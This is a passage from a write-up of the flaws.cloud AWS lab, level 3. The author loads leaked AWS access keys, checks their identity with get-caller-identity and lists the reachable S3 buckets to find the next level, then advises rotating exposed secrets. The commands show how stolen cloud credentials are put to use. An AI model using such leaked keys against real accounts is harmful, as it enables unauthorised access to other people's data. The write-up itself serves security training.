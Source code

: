 Now that we got our hands on a set of **AWS Access Keys** we can import them in our environment using `aws configure` and see what can be done with them.

```
fog@cloudbreach:~/flaws/level3$ aws configure list --profile level3
      Name                    Value             Type    Location
      ----                    -----             ----    --------
   profile                   level3           manual    --profile
access_key     ****************T7SA shared-credentials-file    
secret_key     ****************3Jys shared-credentials-file    
    region                us-west-2      config-file    ~/.aws/config
```

One of the first commands to run when looting AWS keys is `get-caller-identity` (AWS's version of `whoami`).

```
fog@cloudbreach:~/flaws/level3$ aws sts get-caller-identity --profile level3
{
    "UserId": "AIDAJQ3H5DC3LEG2BKSLC",
    "Account": "975426262029",
    "Arn": "arn:aws:iam::975426262029:user/backup"
}
```

Our user is called `backup`. We can leverage the policies attached to this account to list down all buckets visible by this user.

```
fog@cloudbreach:~/flaws/level3$ aws s3 ls --profile=level3
2020-06-25 13:43:56 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2020-06-26 19:06:07 config-bucket-975426262029
2020-06-27 06:46:15 flaws-logs
2020-06-27 06:46:15 flaws.cloud
2020-06-27 11:27:14 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2020-06-27 11:27:14 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2020-06-27 11:27:14 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2020-06-27 11:27:15 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2020-06-27 11:27:15 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2020-06-27 22:29:47 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```

We don't have read access to everything, but enough to move on to the next level `level4-1156739cfb264ced6de514971a4bef68.flaws.cloud`.

!!!tip 
    Read the following from Github Docs: [Removing sensitive data from a repository](https://docs.github.com/en/authentication/keeping-your-account-and-data-secure/removing-sensitive-data-from-a-repository#fully-removing-the-data-from-github)  
    NB: **always** rotate your keys/secrets if you suspect any potential leak.

